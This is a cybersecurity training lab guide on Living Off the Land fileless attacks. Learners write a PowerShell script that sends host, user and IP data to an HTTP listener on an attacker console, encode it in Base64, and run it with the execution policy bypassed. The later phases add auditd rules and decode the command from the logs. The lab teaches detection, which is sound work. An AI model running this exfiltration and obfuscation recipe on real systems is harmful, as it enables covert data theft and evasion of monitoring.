 # Living Off the Land Fileless Malware Attacks

When a threat actor uses tools already installed on a system to complete their attack and blend in with legitimate administrative activities, they are using a technique known as Living Off the Land (LOTL). These attacks are challenging to detect because the tools used often have a legitimate administrative functions within the environment. Identifying LOTL activity can be difficult due to a lack of traditional indicators of compromise and many organizations rely on default logging configurations that do not distinguish between malicious and legitimate IT activity.

This lab incorporates recommendations provided in the joint publication <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>.

- This lab is expected to take one (1) hour

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab and complete the mini-challenge to receive your completion certificate. We encourage you to attempt mini-challenges on your own, but links to the solution guides are available in the Mini-Challenge section of the lab document if you need them.

## Learning Objectives
- Explain the concept of fileless malware and how attackers abuse PowerShell for stealthy execution.
- Encode and execute a malicious PowerShell command using Base64.
- Demonstrate data exfiltration using PowerShell over a network using HTTP.
- Simulate an adversary using Living Off the Land techniques to bypass traditional defenses.


## Learner Expectations
- Be comfortable with command line operations
- Have a basic familiarity with PowerShell


## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 5 (Incident Detection and Response).

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1084</a>: Identify anomalous network activity
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1299</a>: Determine causes of network alerts
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1347</a>: Detect cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1350</a>: Perform continuous monitoring of system activity

<!-- cut -->

## Scenario
In this lab you are presented with two (2) servers running Ubuntu. One is a base installation and the other has additional logging tools added. After constructing a basic fileless malware attack, you will examine the system logs generated. After adding enhanced logging you will see the additional details about the attack that are revealed.


## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Attack-Console | Kali | user | tartans|
| Base-Ubuntu | Ubuntu | user | tartans |
| Logging-Ubuntu | Ubuntu | user | tartans |
| Mini-Challenge | Ubuntu | user | tartans |

| &#9888; NOTE |
|---|
| You are given access to the remote systems in this lab. In real world scenarios threat actors gain access through a variety of means such as phishing, using weak or compromised credentials, and exploiting vulnerabilities. |


## Phase 1: Fileless Malware Attacks Using PowerShell
<details>
<summary>
<h3>Phase 1 Introduction</h3>
</summary>
<p>

A tool commonly exploited in Living Off the Land attacks is PowerShell, a powerful scripting language widely used for automation and system administration. Its deep integration with Windows, as well as its ability to integrate with Linux and macOS operating systems, has made it an attractive tool for attackers to use in LOTL attacks.

PowerShell can be used in fileless malware attacks; a type of malicious activity where the malware operates in memory making it harder to detect.

For Phase 1, you will perform a LOTL attack using PowerShell to exfiltrate data from a remote system to the `Attack-Console`

</p>
</details>

<details>
<summary>
<h3>Start an HTTP Listener</h3>
</summary>
<p>

Tools and techniques that allow threat actors to maintain communications with compromised devices are known as Command and Control Infrastructure. Sometimes shortened to C2 or C&C. The implementation of C2 systems can vary greatly, but at their core they provide communication channels for sending instructions, downloading payloads, or receiving exfiltrated data.

You will be using a basic HTTP Listener to act as your C2 system to receive the data you exfiltrate.

1. Open the `Attack-Console` and open FireFox using the shortcut on the Desktop.

2. (**Attack-Console**, **FireFox**) Navigate to `https://skills.hub/lab/files` or click on the **Hosted Files** from the Skills Hub landing page.

3. (**Attack-Console**, **FireFox**) Download the file `httpListener.py`.

| &#129513; WHAT'S THAT SCRIPT DOING? |
| --- |
| A summary of how the `httpListener.py` script works has been provided within the script. Use Visual Studio Code (VSCode) to open it and take a look at how it works. |

4. (**Attack-Console**) Open a Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![TERM-OPEN.png](./img/TERM-OPEN.png)

5. (**Attack-Console**, **Terminal**) Navigate to the Downloads directory using the command `cd /home/user/Downloads`.

![PH1-HTTP-05.png](./img/PH1-HTTP-05.png)

6. (**Attack-Console**, **Terminal**) Start the HTTP Listener using the command `python3 httpListener.py`. The HTTP Listener will remain active as long as the Terminal Window remains open.

![PH1-HTTP-06.png](./img/PH1-HTTP-06.png)

| &#128736; HTTP Listener |
|---|
| The HTTP listener attaches (binds) itself to the IP address of the `Attack-Console` on port `8080`. It listens for HTTP requests to that IP address and port, for example `http://10.5.5.100:8080`, and displays in the Terminal any data it receives. |

7. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![PH1-HTTP-07.png](./img/PH1-HTTP-07.png)

8. (**Attack-Console**, **Terminal**) Type "HTTP Listener" into the textbox and press Enter. This names the session "HTTP Listener" and will make it easier to locate later.

![PH1-HTTP-08.png](./img/PH1-HTTP-08.png)

</p>
</details>

<details>
<summary>
<h3>Use PowerShell to Exfiltrate System Data</h3>
</summary>
<p>

1. From the `Attack-Console`, Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![TERM-OPEN.png](./img/TERM-OPEN.png)

2. (**Attack-Console**, **Terminal**) Determine the IPv4 address of `Attack-Console` by typing the command `hostname -I | awk '{print $1}'`. This IP address will be used as the target for exfiltrated data. After you have recorded the IPv4 address, you may close the Terminal Window.

![PH1-EXFIL-02.png](./img/PH1-EXFIL-02.png)

3. (**Attack-Console**) Open Visual Studio Code by double-clicking on the Visual Studio Code shortcut on the Desktop.

![VSCODE-OPEN.png](./img/VSCODE-OPEN.png)

4. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

![PH1-EXFIL-04.gif](./img/PH1-EXFIL-04.gif)

5. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

```powershell
$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;

Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' `
    -Method Post `
    -Body $info `
    -ContentType 'application/json'
```

6. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified in Step 2.

![PH1-EXFIL-06-IP-REPLACE](./img/PH1-EXFIL-06-IP-REPLACE.gif)

In this script, the Linux commands `hostname`, `whoami` and `hostname -I` are run to retrieve system information from the host. The values are stored in the `$info` hashtable and then converted to a JSON string.

The `Invoke-WebRequest` Cmdlet is used to send an HTTP request to the destination.
- `-Uri 'http://5.5.5.124:8080'` - Specifies the destination server and port.
- `-Method Post` - Sends the data using the HTTP POST method.
- `-Body $info` - Sends the JSON-formatted data stored in the `$info` hashtable.
- `-ContentType 'application/json'` - Specifies that the data being sent is in JSON format.

![PH1-EXFIL-06.png](./img/PH1-EXFIL-06.png)

7. (**Attack-Console**) Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![TERM-OPEN.png](./img/TERM-OPEN.png)

8. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![PH1-EXFIL-08.png](./img/PH1-EXFIL-08.png)

9. (**Attack-Console**, **Terminal**) Type "SSH Base-Ubuntu" into the textbox and press Enter.

![PH1-EXFIL-09.png](./img/PH1-EXFIL-09.png)

10. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Base-Ubuntu` server with the command `ssh user@base-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![PH1-EXFIL-10.png](./img/PH1-EXFIL-10.png)

11. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

12. (**Attack-Console**, **SSH Connection**) Start PowerShell with the command `pwsh -NoProfile -ExecutionPolicy Bypass`.

- `-NoProfile` Ensures that PowerShell starts without loading any user-specific profile scripts to improve both speed and prevent unwanted scripts from interfering.
- `-ExecutionPolicy Bypass` Overrides the system's PowerShell script execution policy allowing the script to run regardless of restrictions. This is used to evade PowerShell security controls.

![PH1-EXFIL-12.png](./img/PH1-EXFIL-12.png)

| &#129513; SO ANYONE CAN BYPASS AN EXECUTION POLICY? |
| --- |
| While `-ExecutionPolicy Bypass` allows a user to override the local execution policy to run a PowerShell script, administrators are able to block it using tools such as Group Policy Objects (GPO) or AppLocker. These blocks and restrictions are often not in place because PowerShell is a commonly used administrative tool and viewed as "safe". This false safety is exploited by threat actors using Living Off the Land techniques. Putting appropriate restrictions in place greatly limits a threat actor's ability to exploit native tools for malicious activity. |

13. (**Attack-Console**, **Visual Studio Code**) Copy the PowerShell script you crafted above in Step 6 from Visual Studio Code.

14. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

![PH1-EXFIL-14.png](./img/PH1-EXFIL-14.png)

*Leave this Terminal and SSH session open and remain within the PowerShell prompt. We will use it again in a later step.*

15. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data you just exfiltrated from `Base-Ubuntu` appears.

![PH1-EXFIL-15.png](./img/PH1-EXFIL-15.png)

**Knowledge Check Question 1:** *What is the IPv4 address of base-ubuntu in the output of the http-listener.*

</p>
</details>

<details>
<summary>
<h3>Obfuscate Commands Using Base64</h3>
</summary>
<p>

You successfully exfiltrated basic system data using PowerShell! But the commands that were run seem suspicious, especially written in plain text. To cover their actions, threat actors will convert the commands to Base64 before executing them.

1. Return to Visual Studio Code.

2. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

3. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

```powershell
$command = @"
`$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;
Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' -Method Post -Body `$info -ContentType 'application/json'
"@
```

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

4. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified previously.

![PH1-OBF-04](./img/PH1-OBF-04.gif)

5. From the `Attack-Console`, open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel. We won't title this Terminal since it will only be used temporarily to create the encoded command.

![TERM-OPEN.png](./img/TERM-OPEN.png)

6. (**Attack-Console**, **Terminal**)  Start PowerShell with the command `pwsh`.

![PH1-OBF-04.png](./img/PH1-OBF-06.png)

7. (**Attack-Console**, **PowerShell Prompt**) Copy the PowerShell script you crafted above in Step 4 from Visual Studio Code.

8. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

| &#128270; INFORMATION |
|---|
| The commands being run are the same ones you executed on the remote system, but here we are storing the data in a hash table variable named `$command`. This variable will be used to convert the commands to Base64 in the following steps |

![PH1-OBF-08.png](./img/PH1-OBF-08.png)

9. (**Attack-Console**, **PowerShell Prompt**) Convert the contents of `$command` to a byte array using Unicode (UTF-16LE) by entering the following command into the PowerShell Prompt.

```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
```

![PH1-OBF-09.png](./img/PH1-OBF-09.png)

10. (**Attack-Console**, **PowerShell Prompt**) Take the contents of `$bytes` and convert to a Base64 string by entering the following command into the PowerShell Prompt.

```powershell
$encodedCommand = [Convert]::ToBase64String($bytes)
```

![PH1-OBF-10.png](./img/PH1-OBF-10.png)

11. (**Attack-Console**, **PowerShell Prompt**) Print the Base64 encoded string stored in `$encodedCommand` to the Terminal by entering the following command into the PowerShell Prompt.

```powershell
Write-Output $encodedCommand
```

![PH1-OBF-11.png](./img/PH1-OBF-11.png)

12. (**Attack-Console**) Return to Visual Studio Code.

13. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file.

14. (**Attack-Console**, **Visual Studio Code**) Copy the Base64 encoded command from the PowerShell Prompt to the text file.

| &#128204; You will use this output several times in the lab, so make sure to keep it handy! |
|---|

15. (**Attack-Console**, **Terminal**) After you have copied the Base64 encoded command, close the Terminal Window.

16. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

17. (**Attack-Console**, **SSH Session**) Execute the encoded command by entering the following command, making sure to replace <BASE64> with the Base64 Command you created above in Step 6.

```bash
pwsh -EncodedCommand <BASE64>
```

![PH1-OBF-17.png](./img/PH1-OBF-17.png)

18. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data exfiltrated from `Base-Ubuntu` appears.

![PH1-OBF-18.png](./img/PH1-OBF-18.png)

| &#129513; KEY POINT |
|---|
| The exfiltrated data is the same because it used the same commands; the only difference was they were obfuscated.|

**Knowledge Check Question 2:** *Which type of encoding did you use to obfuscate the PowerShell script - XOR, ROT13, or Base64?*

</p>
</details>

<details>
<summary>
<h3>Reviewing Log Files</h3>
</summary>
<p>

The system `Base-Ubuntu` is using the default logging enabled when Ubuntu Server is freshly installed. Review the logs to see what traces of your data exfiltration are present.


1. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

2. (**Attack-Console**, **SSH Session**) Use `grep` to search the syslog log file for the word "powershell" with the command: `sudo cat /var/log/syslog | grep powershell`.

3. (**Attack-Console**, **SSH Session**) If prompted, enter the `sudo` password `tartans` and press Enter.

4. (**Attack-Console**, **SSH Session**) Reviewing the syslog log file, note there are logs that PowerShell was starting, and it was ready for user input, but there is no record of the commands that were run. The logs also do not indicate which user started PowerShell.

![PH1-LOG-06.png](./img/PH1-LOG-06.png)

| &#129513; Understanding Default Logging in Syslog |
| --- |
| Reviewing syslog in its default state you notice that it provides only basic system-level information recording events such as service starts/stops, authentication attempts, and kernel messages. This is because syslog is designed for general system logging rather than in-depth security auditing. This level of logging is often insufficient for detecting and identifying threats.<br><br>Later in this lab you will enable additional logging that provides more detailed visibility into system activity. By comparing what is (and isn’t) logged in the default state to the logs you’ll generate later, you’ll gain a better understanding of why proper logging configuration is essential for detecting fileless malware and other advanced threats. |

6. (**Attack-Console**, **SSH Session**) Locate the Phase 1 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to Phase 2 of the lab!

![PH1-LOG-07.png](./img/PH1-LOG-07.png)

7. (**Attack-Console**, **SSH Session**) Close the "SSH Base-Ubuntu" Terminal window.


</p>
</details>

</p>
</details>

## Phase 2: Logging To Help Identify Living Off the Land Attacks
<details>
<summary>
<h3>Phase 2 Introduction</h3>
</summary>
<p>

Audit Daemon (`auditd`) is an auditing framework for Linux that helps system administrators and security professionals track and log system events. It provides detailed insight into system activities, including file access, command execution, user logins, and security policy modifications. By configuring audit rules, administrators can monitor specific files, processes, and system calls, ensuring compliance with security policies and detecting potential threats.
</p>
</details>

<details>
<summary>
<h3>Adding Rules to Auditd</h3>
</summary>
<p>


1. From the `Attack-Console`, open a new Terminal window.

2. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

3. (**Attack-Console**, **Terminal**) Type "SSH Logging-Ubuntu" into the textbox and press Enter.

4. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Logging-Ubuntu` server with the command `ssh user@logging-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![PH2-AUD-02.png](./img/PH2-AUD-02.png)

5. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

6. (**Attack-Console**, **SSH Session**) Create a new rules file called `powershell.rules` with the command `sudo nano /etc/audit/rules.d/powershell.rules`. If prompted, enter the `sudo` password `tartans` and press Enter.

![PH2-AUD-04.png](./img/PH2-AUD-04.png)

| &#128270; INFORMATION |
|---|
| Component audit rules (here `powershell.rules`) are placed in the audit rules directory (`/etc/audit/rules.d`). For ease of management, multiple rule files can be created and named according to the specific system event(s) being monitored or logged. |

7. (**Attack-Console**, **SSH Session**, **Nano Editor**) Create a rule to audit the execution of the PowerShell binary by entering the following rule.

```rules
-a always,exit -F arch=b64 -S execve -F path=/opt/microsoft/powershell/7/pwsh -F key=powershell_exec
```

This rule will audit the execution of the PowerShell binary by tracking the `execve` system call. Breaking it down further:
- `-a always,exit` - Log every exit of the specified system call (`execve`)
- `-F arch=b64` - Specifies the CPU architecture as 64-bit
- `-F path=/opt/microsoft/powershell/7/pwsh` - Filters to include events involving the PowerShell binary
- `-k powershell_exec` - Assigns a key to the log entry so the audit logs can be easily searched

![PH2-AUD-05.png](./img/PH2-AUD-05.png)

8. (**Attack-Console**, **SSH Session**, **Nano Editor**) Write out (save) your changes in Nano by pressing Ctrl+o.

9. (**Attack-Console**, **SSH Session**, **Nano Editor**) Confirm the filename by pressing Enter.

10. (**Attack-Console**, **SSH Session**, **Nano Editor**) Exit Nano by pressing Ctrl+x.

11. (**Attack-Console**, **SSH Session**) Add the `powershell.rules` to the main rules file with the command `sudo augenrules --load`.

| &#128270; INFORMATION |
|---|
| `augenrules` is a script that processes and merges all component audit rules in the `rules.d` directory into the main `audit.rules` file. It processes the rules in order and removes any empty or commented lines. |

12. (**Attack-Console**, **SSH Session**) Verify the rules were successfully added to the main rules file with the command `sudo auditctl -l`.

![PH2-AUD-10g](./img/PH2-AUD-10.png)

**Knowledge Check Question 1:** *What is the full path of the PowerShell binary on the logging-ubuntu system?*

</p>
</details>


<details>
<summary>
<h3>Reattempt of Obfuscated Commands Using Base64</h3>
</summary>
<p>

| &#128204; If not already running, please start the HTTP Listener following the steps in Phase 1. |
|---|

1. (**Attack-Console**, **SSH Session**) Execute the encoded command you created in Phase 1 by entering the following command, making sure to replace <BASE64> with the Base64 Command you previously created.

```bash
pwsh -EncodedCommand <BASE64>
```

![PH2-OBF-01](./img/PH2-OBF-01.png)

2. (**Attack-Console**, **SSH Session**) Search the audit logs for the key `powershell_exec` with the command.

```bash
sudo ausearch -k powershell_exec
```

![PH2-OBF-02](./img/PH2-OBF-02.png)

3. (**Attack-Console**, **SSH Session**) Compared to the syslog entry you examined at the end of Phase 1, the auditd log contains much more detail, including the command that was run (lines 19 through 25) and the user ID (uid) of the user who executed it (line 29).

```text
01 | time->XXXX XXX  X XX:XX:XX 20XX
02 | type=PROCTITLE msg=audit(1738858549.467:322):
03 | proctitle=70777368002D456E636F646564436F6D6D616E64004A414270414734415A674276414341415051
04 | 4167414541416577414B4143414149414167414341414A774249414738416377423041473441595142744147
05 | 55414A774167414430414941426F41473841637742304147344159514274414755414F77414B414341414941
06 | 41
07 |
08 | type=PATH msg=audit(1738858549.467:322): item=1 name="/lib64/ld-linux-x86-64.so.2"
09 | inode=395840 dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0
10 | cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
11 |
12 | type=PATH msg=audit(1738858549.467:322): item=0 name="/usr/bin/pwsh" inode=395563
13 | dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0
14 | cap_fe=0 cap_fver=0 cap_frootid=0
15 |
16 | type=CWD msg=audit(1738858549.467:322): cwd="/home/user"
17 |
18 | type=EXECVE msg=audit(1738858549.467:322): argc=3 a0="pwsh" a1="-EncodedCommand"
19 | a2="JABpAG4AZgBvACAAPQAgAEAAewAKACAAIAAgACAAJwBIAG8AcwB0AG4AYQBtAGUAJwAgAD0AIABoAG8AcwB0
20 | AG4AYQBtAGUAOwAKACAAIAAgACAAJwBVAHMAZQByACcAIAA9ACAAdwBoAG8AYQBtAGkAOwAKACAAIAAgACAAJwBJ
21 | AFAAJwAgAD0AIAAoAGgAbwBzAHQAbgBhAG0AZQAgAC0ASQApADsACgB9ACAAfAAgAEMAbwBuAHYAZQByAHQAVABv
22 | AC0ASgBzAG8AbgA7AAoASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0
23 | AHQAcAA6AC8ALwAxADAALgA1AC4ANQAuADEAMgA0ADoAOAAwADgAMAAnACAALQBNAGUAdABoAG8AZAAgAFAAbwBz
24 | AHQAIAAtAEIAbwBkAHkAIAAkAGkAbgBmAG8AIAAtAEMAbwBuAHQAZQBuAHQAVAB5AHAAZQAgACcAYQBwAHAAbABp
25 | AGMAYQB0AGkAbwBuAC8AagBzAG8AbgAnAA=="
26 |
27 | type=SYSCALL msg=audit(1738858549.467:322): arch=c000003e syscall=59 success=yes exit=0
28 | a0=55b3d0982ed0 a1=55b3d0862ce0 a2=55b3d0977b00 a3=55b3d0926cf0 items=2 ppid=1613
29 | pid=1819 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000
30 | fsgid=1000 tty=pts0 ses=1 comm="pwsh" exe="/opt/microsoft/powershell/7/pwsh"
31 | subj=unconfined key="powershell_exec"
```

4. (**Attack-Console**, **SSH Session**) The username of the person who executed the command can be found by searching the `/etc/passwd` file for the UID with the command `cat /etc/passwd | grep 1000`.

![PH2-OBF-04](./img/PH2-OBF-04.png)

Since you ran the command, the UID traces back to the `user` user. When investigating suspicious PowerShell commands being run, being able to identify the user account is helpful to narrow your investigation.


| &#128270; WHAT IS `/etc/passwd` |
| --- |
| The `/etc/passwd` file is a system file that stores information about user accounts. This file is readable by all users but only writable by the root user. Each line represents a single user and contains several fields separated by colons (`:`). These fields include:<br><br>- **Username** – The login name of the user.<br>- **Password Placeholder** – Historically, this contained the actual password hash, but now it typically contains an x, indicating the password is stored securely in `/etc/shadow`.<br>- **User ID (UID)** – A unique numerical identifier for the user. The root user always has UID 0.<br>- **Group ID (GID)** – The primary group associated with the user.<br>- **User Info (GECOS field)** – An optional field that can contain a user’s full name or other information.<br>- **Home Directory** – The path to the user’s home folder.<br>- **Login Shell** – The default shell that runs when the user logs in (e.g., `/bin/bash`). |


**Knowledge Check Question 2:** *What system file contains information about a user's account?*

5. (**Attack-Console**, **SSH Session**) Locate the Phase 2 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to the Mini-Challenge of the lab!

| &#129513; A Word on Logging: |
| --- |
| The configuration used in this lab doesn't even begin to scratch the surface of the types of logging that can be enabled using `auditd`. While the initial impulse may be to enable everything, keep in mind the impact this will have. A high volume of logs can create a large amount of noise making it easier to miss outliers and leading to alert fatigue. Having an understanding of your environment baseline and tuning your logging appropriately will help reduce noise and improve your detection accuracy. |
</p>
</details>

<details>
<summary>
<h3>Decoding The Command</h3>
</summary>
<p>

In the lab environment you know the commands executed by the Base64 encoded command. But what if you encountered this during an investigation? Fortunately just as you were able to encode the commands, you can decode them to see what was run. To do this we will use CyberChef, a web application that can be used for encryption, encoding, compression, and data analysis.

1. (**Attack-Console**) Open FireFox.

2. (**Attack-Console**, **FireFox**) Click on CyberChef from the Bookmarks Toolbar.

3. (**Attack-Console**, **FireFox**, **CyberChef**) In the upper-right "Input" box, paste the encoded command from the log file.

![PH3-CC-03](./img/PH3-CC-03.png)

4. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane (on the left), drag "From Base64" to the Recipe box.

![PH3-CC-04.png](./img/PH3-CC-04.png)

5. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane's search field, search for "null".

6. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane, drag "Remove null bytes" to the recipe box.

![PH3-CC-06.png](./img/PH3-CC-06.png)

7. (**Attack-Console**, **FireFox**, **CyberChef**) With the Recipe built, examine the "Output" box. This is the decoded command. Compare it to the commands you used earlier and note that they match!

![PH3-CC-07.png](./img/PH3-CC-07.png)
</p>
</details>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

A new server (`mini-challenge`) has been added to the environment. Syslog shows PowerShell is being launched, but it is not known *who* is running the commands or *what* commands are being run.

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Configure enhanced logging on `mini-challenge` to identify who is running the PowerShell Commands
- Identify what PowerShell command is being run
- Decode the PowerShell command and locate the Secret Token

Note that you may need to wait a few minutes before the Powershell attempts appear in the logs *after* you configure enhanced logging.

### Grading Check

- Based on the User ID (UID), what is the **username** of the account that is running the PowerShell commands?

- What was the Secret Token being sent by the threat actor?


`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can use the solution guide found <a href="https://github.com/cisagov/prescup-challenges/tree/main/skilling-continuation-labs/living-off-the-land-attacks/solution/README.md" target="_blank">here</a> for assistance.*
</p>
</details>

<details>
<summary>
<h2>Lab Wrap Up</h2>
</summary>
<p>

### Conclusion

By completing this lab you have become more familiar with attacks that use native tools to avoid detection.

To recap:
- You exfiltrated data using PowerShell Commands.
- You obfuscated your commands using Base64.
- You created `auditd` rules to detect and capture PowerShell commands.
- You decoded a Base64 PowerShell command.

Skills exercised:
- S0838: Skill in identifying anomalous activities
- S0839: Skill in identifying exploited system weaknesses
- S0840: Skill in identifying misuse activities
- S0846: Skill in monitoring system activity

Enabling additional logging to detect abuse of PowerShell increases the likelihood of early detection and response to Living Off the Land style attacks.

### References

 - <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL) Plan</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
